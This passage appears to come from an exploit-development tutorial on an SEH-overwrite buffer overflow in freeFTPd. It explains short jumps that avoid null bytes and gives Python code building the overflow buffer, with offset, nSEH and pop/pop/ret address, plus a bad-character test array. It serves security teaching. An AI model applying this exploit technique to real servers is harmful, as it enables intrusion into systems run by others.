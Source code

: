 A quick note about writing shellcode...you have to be aware that some opcodes will become zero-extended if used improperly. Here, if we simply want to jmp ahead 6 bytes, we will have the opcodes "\xE9\x01" plus zeroes extending an additional 3 bytes of space. This will introduce null-bytes into the buffer which will prematurely terminate any data following after it. Even if we simply just put "\xE9\x01" the CPU will automatically extend an additional 3 bytes of zeroes into the buffer. That's undesirable, so in this case we want to jump short, which is relative to the next byte as an argument. This will give us the opcodes "\xEB\x04" and will allow us to safely jump over our address to pop/pop/ret, and the following two bytes of junk code. We'll also need to expand the amount of "D's" being used by an additional 1000 bytes so we have more space for potential shellcode.  

```python
SEH = pack("<I", 0x7ffc0519)       # SEH should read 1905fc7f
nSEH = "\xCC\xCC\xEB\x04"          # The next SEH should have an address of 04EBCCCC
buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += "D"*(2000-982-8)         # Add 10 D's as padding to maintain a 1000-byte buffer adjusting for the length of A's, B's, and C's
```

## Finding Bad Characters

![screenshot](/assets/images/freeftpd/jmp_six2.PNG)

Now that we have everything in place, we know the offsets, we control SEH, and we have a means to jump to a code block of whatever we want...we now need to put in some shellcode. First and foremost, we need to determine what characters will be bad. We already know "\x00" are bad, and "\x0a" will also truncate the buffer. What's crazy is that we know "\x0a" is a bad character, but it is also a dependency for the vulnerability. That is super weird, but hey crazier things happen all the time. We'll need to modify the exploit with an array of characters that we will be able to use to determine which ones are bad:

```python
badchars = ( "\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff") 

SEH = pack("<I", 0x7ffc0519)       # SEH should read 1905fc7f
nSEH = "\xCC\xCC\xEB\x04"          # The next SEH should have an address of 04EBCCCC
buffer = "A"*982
buffer += nSEH
buffer += SEH
buffer += "D"*(2000-982-8-len(badchars))  
```
